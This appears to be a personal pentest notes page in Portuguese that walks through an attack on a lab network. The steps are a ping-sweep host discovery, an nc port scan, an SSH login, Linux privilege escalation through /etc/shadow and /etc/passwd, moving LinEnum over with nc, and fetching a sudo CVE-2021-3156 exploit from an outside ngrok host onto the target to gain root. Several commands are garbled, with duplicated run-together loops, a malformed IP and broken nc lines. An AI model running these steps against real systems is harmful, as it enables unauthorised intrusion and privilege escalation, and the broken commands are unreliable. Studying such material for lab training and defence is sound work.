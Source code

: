 ```yaml
---
tags:
  - Pentest
  - WEB
---
```

# Identificando outros hosts rodando na mesma rede

Com esse código bash, conseguimos *identificar outros hosts que estão presentes na mesma rede*, ou seja, outras máquinas da mesma rede que possam conter outras informações para serem comprometidas

```bash
for i in {1..254}; do (ping -c 1 10.20.20.20.$i &); donefor i in {1..254}; do (ping -c 1 10.20.20.20.$i &); done

for i in {1..254}; do (ping -c 1 10.20.20.20.$i &); donefor i in {1..254}; do (ping -c 1 10.20.20.20.$i | GREP "64 bytes" &); done
```

Caso o servidor não possua **nmap**, temos como fazer um **portscan com nc**:

```shell
nc -w 1 -zv 10.20.20.3 1-500
```

Apos localizar a conexão com o servidor alvo, apenas conectar via ssh:

```shell
ssh bob@10.20.20.3 

password: 12356
```

# Alguns escalamentos de privilégios no Linux:

- Se tiver permissão de LEITURA para /etc/shadow conseguimos pegar as **hashs das senhas** dos usuários e tentar quebrar
- Se tiver permissão de ESCRITA para /etc/shadow conseguimos alterar a senha do **root**
- Se tiver permissão de ESCRITA para /etc/passwd conseguimos ler o arquivo e criar um novo **usuário com permissão de root**

# Transferindo arquivo e encontrando Exploit por meio do LinEnum

Agora, conseguimos clonar um repositório que contém um programa para **facilitar nossa escalação de privilégios**

_Servidor principal que possua o comando wget_

```sh
wget https://github.com/rebootuser/LinEnum.git

ls
LinEnum.sh

nc -lvp 7799 < LinEnum.sh # passando o arquivo
```

_Máquina do Usuário na qual deseja enviar arquivos_

```sh
cd /tmp => nesse siretório será possivel receber o arquivo
nc 10.20.20.2 7799 > lin.sh # recebendo o arquivo
```

- Executando o arquivo recebido:
```sh
bash lin.sh 
```

Com esse arquivo, conseguiremos ver informações que podem ser vulneráveis a Exploits dentro do servidor alvo. **Como por exemplo a versão do Sudo**, pode ser um bom ponto para escalação de privilégios

# Exploits SUDO

- CVE-2021-3156
   - Download: https://github.com/CptGibbon/CVE-2021-3156
   ```sh
    nc 7788 < exploit.c
 ```

Enviaremos novamente para o alvo:

```sh
#Eviando
nc -lvp 7788 < exploit.c

#Recebendo - máquina alvo
nc 4.tcp.ngrok.io 15928 > exploit.c

ls
explot.c
```

_repetir isso para todos os arquivos do exploit_

Assim que executar-mos teremos conseguido escalar os privilégios:

```sh
./exploit
$ whoami
root
$
```

